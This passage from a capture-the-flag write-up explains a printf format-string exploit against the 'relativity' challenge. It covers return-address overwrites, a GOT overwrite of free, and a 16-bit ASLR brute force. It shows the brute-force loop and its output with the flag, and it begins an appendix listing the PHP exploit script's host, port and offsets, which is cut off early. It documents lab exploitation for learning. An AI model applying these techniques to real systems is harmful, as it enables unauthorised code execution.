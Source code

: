 It might seem redundant to change `printf`'s return address twice in step 1 and
2, but it is required to setup the stack properly.

The first step prepares a pointer to the return address and uses it to call the
`vuln` function again.

The second step overwrites the return address to `vuln` a second time. Since
`argv[0]`'s pointer is already pointing to `printf`'s return address, the first
write is not required and can be used for something else. Here, it is used to
prepare the write to `free@got.plt` done in the third step.

The downside of this approach is that it requires to partially guess the ASLR:
it requires 12 bits for the stack's slide because only the 4 least significant
bits of are fixed.

It also requires 4 additional bits for the binary's slide because only the 12
least significant bits of are fixed.

This results in a 16-bits (65,536) brute-force attack.

```
% while ! ./pwn.php; do :; done

uid=1000(user) gid=1000(user) groups=1000(user)
total 32
drwxr-xr-x 2 nobody nogroup  4096 Jan  2 19:22 .
drwxr-xr-x 3 nobody nogroup  4096 Jan  2 19:22 ..
-r-xr-xr-x 1 nobody nogroup 17304 Nov 21 22:38 chal
-rw-r--r-- 1 nobody nogroup    64 Nov 21 22:42 flag.txt
idek{printf_is_very_powerful_but_the_got_is_even_more_powerful}
```

**Flag**: `idek{printf_is_very_powerful_but_the_got_is_even_more_powerful}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
const LOCAL = false;
const HOST  = "relativity.chal.idek.team";
const PORT  = 1337;

const IDX_SHIFT   = 4; // each call to vuln shifts stack by 4 * 8 bytes
const IDX_BASE    = 9;

const IDX_ARGV    = 13; // 28 is good too
const IDX_ARG0    = 41;

//const IDX_ENVP    = 29;
//const IDX_ENV0    = 43; // DOES NOT WORK ON REMOTE !!

// PIE
const ASLR_BASE   = 0;
const ASLR_LOOP   = ASLR_BASE + 0x127F;
const ASLR_FREE   = ASLR_BASE + 0x4018;
const ASLR_EXIT   = ASLR_BASE + 0x4050;
const ASLR_VULN   = ASLR_BASE + 0x1229;
const ASLR_JMP    = ASLR_BASE + 0x1130; // jump to _exit

// stack
const ASLR_RET    = 0x0c30 - 0x28;
//const ASLR_RET = 0xDDB0 - 0x28;

function expect_check(string $left, string $right)
{
```

[pwnkit]: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt